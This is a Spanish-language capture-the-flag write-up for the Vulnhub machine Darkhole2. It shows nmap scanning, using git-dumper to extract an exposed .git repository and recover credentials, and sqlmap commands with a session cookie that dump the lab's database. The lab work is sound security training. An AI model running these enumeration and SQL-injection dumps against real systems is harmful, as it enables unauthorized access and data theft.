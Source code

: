 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema también se pondra a prueba en VirtualBox

## Escaneo de Red

<netdiscover>

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

nmap -A 192.168.40.133

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git

## Enumerar el servidor web

Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

Decidimos echar un vistazo a la página de inicio de sesión

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup

Después de descargar la herramienta, intentamos ejecutarla con python .
Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para progresar en este laboratorio.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

python3 git_dumper.py http://192.168.40.133/.git/ backup 
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch   //vemos las bases de datos

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
date: "14/07/2023"

